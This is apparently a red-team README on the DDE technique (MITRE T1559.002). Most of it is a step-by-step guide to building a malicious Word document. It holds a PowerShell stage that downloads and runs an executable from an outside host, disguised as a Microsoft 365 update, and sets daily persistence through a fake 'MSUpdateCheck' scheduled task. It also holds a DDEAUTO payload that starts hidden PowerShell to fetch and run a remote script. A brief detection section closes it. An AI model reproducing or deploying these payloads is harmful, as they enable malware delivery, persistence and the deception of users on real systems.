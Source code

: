 # [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002/)

## Exploit Syntax: 

1. Create a txt file named `stage2.txt`

    ```sh
    subl ~/cyber_gambit/resources/malware/stage2.txt
    ```
2. Paste in the powershell below.

   ```powershell
   $url = "http://cpuprok.com/en-us/microsoft-365/update"
   $outpath = "$env:USERPROFILE\msiexec.exe"
   iwr -uri $url -outfile $outpath
   start-process -filepath $outpath
   $action = New-ScheduledTaskAction -Execute $outpath
   $trigger = New-ScheduledTaskTrigger -Daily -At 9am
   Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "MSUpdateCheck" -Description "This task grabs Microsoft Official Updates."
   ```
  > NOTE: Any varibles above can be changed out. 
3. Open a Microsoft Word Document

4. Navigate to the tool bar the at top and select the insert tab

   ![pic](../../Resources/gifs/Insert_Tab.gif)

5. Under Quick Parts dropdown select Field then press ok.

   <img src="/Resources/gifs/Step2_Adding_Object-720p.gif" alt="dog" width="800" height="60" title="dog">


6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "for security reasons"}
    ```
    > NOTE: Nake sure to set your url and file name 

   <img src="/Resources/gifs/Step3_Adding_DDEAuto-720p.gif" alt="addingobject" width="800">

7. Save the document.
---
## Detection Method

1. Investigate embedded code within `Microsoft Office` applications
Searching for `winword.exe` with the `/dde` flag in the command line should indicate a DDE execution. 

2. The `winword.exe` event PID should be the PPID of another process, demonstrating that this DDE flag launched another process (in our case, it launches powershell)


---
## Resources    
* https://www.securitysift.com/abusing-microsoft-office-dde/
* https://1337red.wordpress.com/using-the-dde-attack-with-powershell-empire/
* https://blog.2code-monte.co.uk/2021/03/17/creating-a-cyber-attack-part-9-making-a-malicious-word-document-using-dde-and-powershell/
